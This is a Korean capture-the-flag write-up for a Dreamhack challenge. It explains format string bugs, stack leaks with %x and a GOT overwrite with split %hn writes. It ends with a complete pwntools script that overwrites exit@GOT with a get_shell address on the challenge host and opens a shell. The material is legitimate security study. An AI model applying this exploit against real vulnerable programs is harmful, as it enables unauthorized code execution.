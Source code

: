 ```yaml
---
tags: [dreamhack, wargame, write-up]	
---
```


Format String Bug (FSB) - GOT overwrite(공격 방법)

format string 이란? %d, %s, %x, %c 등

%n(4byte), %hn(2byte) : store the length of print (지금까지 입력된 문자열의 개수 출력)

FSB는 %n/%hn을 활용해야한다.

(특정한 포인터나 값을 원하는 만큼 저장할 수 있음)

다만 조건이 제한적인데,

일반적으로 사용하는 printf(”%s”, buf); 등의 형식에서는 사용이 불가능하고,

printf(buf); 처럼 입력값을 바로 사용하는 경우에만 익스플로잇이 가능한다.

보통 익스플로잇할 때는 %hn을 사용한다. 

그 이유는 0x08048609를 덮으려고 하면 8048609 개 만큼을 출력해야 하기 때문에 무리이고, %hn으로 2byte씩 나눠서 출력하는 게 효율적이다.

---

![Image](/assets/img/be2/image1.png)

이미지와 같이 %x를 5번 입력하게 되면 현재 따로 설정된 인자값이 없기 때문에, 그냥 스택에서 %x를 5번 읽게 되어 스택 포인터와 코드 영역 포인터 등이 노출된다.

![Image](/assets/img/be2/image2.png)

- FSB 이전의 스택 프레임 덤프

```bash
Breakpoint 5, __printf (format=0xffffcd88 "AAAA%x %x %x %x %x\n\b\320f\374\367\b\326\377\367 ") 
```

![Image](/assets/img/be2/image3.png)

- FSB 이후의 스택 프레임 덤프

![Image](/assets/img/be2/image4.png)

해당 파일을 checksec으로 확인해보면 No PIE이기 때문에 로컬에서 구한 바이너리 값이 그대로 적용된다는 것을 알 수 있다.(ASLR 적용 X) 

익스에 성공하기 위해  해야할 것은 exit@GOT 주소를 찾아서 해당 값을 get_shell의 주소로 덮는 것이다.

따라서 알아내야 할 정보는 get_shell()함수의 위치와 exit@GOT의 주소이다.

### get_shell() : 0x8048609

![Image](/assets/img/be2/image5.png)

### exit@GOT : 0x804a024

![Image](/assets/img/be2/image6.png)

![Image](/assets/img/be2/image7.png)

0x804a024를 x/4xb로 확인해보면 값이

0x804a024 : 0x76

0x804a025 : 0x84

0x804a026 : 0x04

0x804a027 : 0x08

로 저장된다는 것을 알 수 있고, 여기서 상위 2바이트는 0x0804a026 부터, 하위 2바이트는 0x0804a024 부터 덮으면 된다는 것을 알 수 있다.

get_shell()의 주소와 exit@GOT의 주소가 일단 804까지는 똑같기 때문에 a024를 8609로 덮어야한다. 

→라고 생각했는데 안정성 때문에 0804까지 덮는 게 정석이라고 한다.

즉, %hn을 두번 사용해서 상위 2바이트와 하위 2바이트로 나눠 입력하여 전체 주소를 덮어줘야한다.

따라서 페이로드는

payload = p32(exit_got + 2) + p32(exit_got) + "get_shell의 주소값 - 0x8"

가 된다.

여기서 “get_shell의 주소값 - 0x8"을 하는 이유는 앞에 입력한 p32(exit_got + 2) + p32(exit_got)의 8byte만큼의 길이도 포함해서 계산을 해야 하기 때문이다.

0x8609 (34313)을 덮고나면, 두 번째로는 0x0804 (2052)를 덮어야 하는데, 이미 34313만큼 출력된 상태이다.

→여기서 궁금했던 건 두 번째 %hn이 첫 번째 %hn의 출력 누적 수의 영향을 받는가?였는데 답은 YES 였다.

→그치만 서로 다른 메모리(상위,하위)를 덮기 때문에 서로의 메모리를 건드리진 않는다.

우리가 덮을 때 사용하는 %hn은 하위 2바이트(16비트)를 덮는데, 16비트의 최대 크기는 65536(0x10000) 이고, 이만큼 출력하면 0으로 돌아가는 특징이 있다.

```bash
(upper(목표) - lower) % 0x10000
= (0x0804 - 0x8609) % 0x10000
= (2052 - 34313) % 65536
= (-32261) % 65536
= 33275
```

따라서 해당 연산을 하게 되면 원하는 값을 넣을 수 있다.

### exploit.py

```bash
from pwn import *

p = remote('host3.dreamhack.games', 20105)

get_shell = 0x08048609
exit_got = 0x0804a024

lower = get_shell & 0xffff   
upper = (get_shell >> 16) & 0xffff  

addr1 = p32(exit_got)
addr2 = p32(exit_got + 2)

written = 8

pad1 = lower - written
payload = addr1 + addr2
payload += f"%{pad1}c%1$hn".encode()

pad2 = (upper - lower) % 0x10000
payload += f"%{pad2}c%2$hn".encode()

print(f"Payload length: {len(payload)}")
p.sendline(payload)
p.interactive()
```